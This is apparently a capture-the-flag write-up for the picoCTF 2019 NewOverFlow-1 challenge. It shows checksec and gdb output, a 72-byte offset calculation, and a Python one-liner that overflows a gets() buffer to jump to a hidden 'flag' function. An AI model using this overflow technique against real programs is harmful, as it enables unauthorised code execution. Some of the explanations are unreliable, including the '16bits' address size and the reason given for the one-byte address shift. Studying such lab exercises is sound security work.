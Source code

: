 This is x64 bits, so the registers name are different `ebp` now is `rbp` and the `esp` is `rsp`, and ofcourse the address 
size is 16bits. 

```
$file vuln && checksec vuln
vuln: setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=e23bfe0b85a0d6c535131ca42d2565187b179fa1, not stripped
[*] '/problems/newoverflow-1_5_bd04c7682164df72135e036dd527b668/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


It is the same as [OverFlow1](https://github.com/alshaboti/CTFs/blob/master/picoCTF2019/OverFlow1.MD), where we need to 
control the `rip` to jump to `flag` function. 

1- let's get flag address
```
$readelf -s vuln|grep flag
70: 0000000000400767   101 FUNC    GLOBAL DEFAULT   13 flag
```
`flag` function address is `0x0000000000400767`

2- Let's find the offset between the start of the `buf` and the `rip` (which is `$rbp+16`).

We will set break point just after gets function, then find where the 
```
$gdb vuln
(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x00000000004007cc <+0>:     push   %rbp
   0x00000000004007cd <+1>:     mov    %rsp,%rbp
   0x00000000004007d0 <+4>:     sub    $0x40,%rsp
   0x00000000004007d4 <+8>:     lea    -0x40(%rbp),%rax
   0x00000000004007d8 <+12>:    mov    %rax,%rdi
   0x00000000004007db <+15>:    mov    $0x0,%eax
   0x00000000004007e0 <+20>:    callq  0x400630 <gets@plt>
   0x00000000004007e5 <+25>:    nop
   0x00000000004007e6 <+26>:    leaveq 
   0x00000000004007e7 <+27>:    retq   
End of assembler dump.
(gdb)b *0x00000000004007e5
(gdb)run 
AAAAAAAAAAAAAAAAA
(gdb) x/100x $rsp
0x7ffff4508970: 0x41414141      0x41414141      0x41414141      0x41414141
0x7ffff4508980: 0x00400041      0x00000000      0x4fe3cb62      0x00007fb7
...
<note AAA starts at 0x7ffff4508970 address, which is the begining of the buf>
(gdb)p/d $rbp-0x7ffff4508970
$3 = 64
```
We find the start of the buf (which in this case is the same as the stack pointer) `0x7ffff4508970`, then we compute the 
offset between buf and $rbp (64bytes) we need to add 64bits (i.e. 8bytes) to find the shift to the $rip. 

So the offset is 64bytes+8bytes = 72bytes

Note: $rip is one address above the $rbp.

3- let's now fill the offset with dump `A` and put the `flag` address on the `$rip` location.
```
python -c 'import struct; print("A"*72+struct.pack("<I",0x0000000000400768) )'|./vuln
```
For some reason I had to add one byte to the add of `flag` function.

I found that the address if we use `info add <fun name>` is different by one byte. So maybe we should use `info add` to get the address
```
(gdb)info add flag
0x0000000000400768
```

